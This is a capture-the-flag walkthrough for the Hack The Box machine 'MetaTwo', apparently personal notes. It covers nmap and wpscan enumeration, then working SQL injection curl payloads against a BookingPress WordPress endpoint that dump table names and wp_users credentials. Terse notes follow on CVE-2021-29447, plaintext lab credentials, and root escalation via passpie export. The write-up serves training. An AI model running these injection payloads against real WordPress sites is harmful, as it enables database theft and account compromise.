


# MetaTwo

---

## Enumeration

### Nmap

I started with an [nmap](https://nmap.org/) with `-sV` to scan services/versions, `-sC` to run default scripts, `-v` for verbose output and `-oN` to write output to a file `scan.nmap`.

The scan shows ports `21` which is FTP, port `22` which is SSH 8.4p1 running on a Debian based linux, and port 80 which is a nginx 1.18.0 based web server and it reveals the domain name of this service which is `metapress.htb` so I added this entry to my hosts file.

```bash
nmap -sV -sC -v -oN scan.nmap 10.129.235.53

PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP

I tried connecting anonymousely to the FTP port but it requires authenticated login, so I moved on to the web server

### Web

I ran a `Gobuster` directory scan and got a bunch of results, first I started tinkering with the `/events/` directory. Found nothing really interesting in the `Gobuster` scan, so I used "wpscan" to scan the wordpress app.


Get a valid nonce from intercepted request on burpsuite

-> Get table names

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=[YOUR NONCE]&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(table_name),0,1,2,3,4,5,6,7 from information_schema.tables-- -' | grep user 
```



-> From WP: https://wordpress.org/support/article/resetting-your-password/
Looking for user_login, user_pass

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=06acdaf5ad&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login),group_concat(user_pass),0,1,2,3,4,5,6 from wp_users-- -'
```



manager:partylikearockstar

--- Lateral movement;

CVE-2021-29447

creds in send_email.php

$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";         

--> PrivEsc

══╣ Possible private SSH keys were found!
/home/jnelson/.passpie/.keys

https://github.com/marcwebbie/passpie

passphrase using PGP private key: blink182
write .pass contents to another file
passpie export

root pass: p7qfAZt4_A1xo_0x